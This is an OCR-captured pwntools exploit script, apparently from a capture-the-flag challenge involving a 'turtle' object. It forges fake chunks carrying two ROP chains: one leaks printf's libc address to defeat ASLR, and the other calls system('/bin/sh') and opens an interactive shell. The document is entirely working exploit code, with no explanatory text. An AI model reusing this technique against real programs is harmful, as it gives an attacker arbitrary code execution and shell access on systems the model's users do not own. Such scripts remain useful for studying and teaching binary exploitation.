 ```

leak = initalTurtle()

# Establish the first ROP Chain for the printf infoleak
chain0 = ""
chain0 += popRdi
chain0 += gotPrintf
chain0 += pltPrintf
chain0 += main

# Establish the first fake chunk
chunk = fit({0: p64(leak),
			 0x8: p64(leak+0x10),
			 0x10: popRegisters,
			 0x18: popRegisters,
			 0x28: p64(0x0),
			 0x40: p64(leak),
			 0x50: chain0}, length=0x100)

# Send the fake chunk
target.sendline(chunk)

# Scan in the libc address of printf, then calculate the address of libc base and system
libcPrintf = u64(target.recv(6) + "\x00\x00")
libcBase = libcPrintf - libc.symbols['printf']
libcSystem = libcBase + libc.symbols['system']
log.info("Address of printf: " + hex(libcPrintf))
log.info("Address of system: " + hex(libcSystem))
log.info("Address of libc base: " + hex(libcBase))

# Get the infoleak for the new turtle object
leak = initalTurtle()

# Establish the second ROP Chain to call System
chain1 = ""
chain1 += popRdi
chain1 += p64(leak + 0x48)
chain1 += p64(libcSystem)

# Establish the second fake chunk
chunk = fit({0: p64(leak),
			 0x8: p64(leak+0x10),
			 0x10: popRegisters,
			 0x18: popRegisters,
			 0x28: p64(0x0),
			 0x40: p64(leak),
			 0x48: '/bin/sh\x00',
			 0x50: chain1}, length=0x100)

# Send the second fake chunk
target.sendline(chunk)

# Drop to an interactive shell to use our new shell
target.interactive()
```
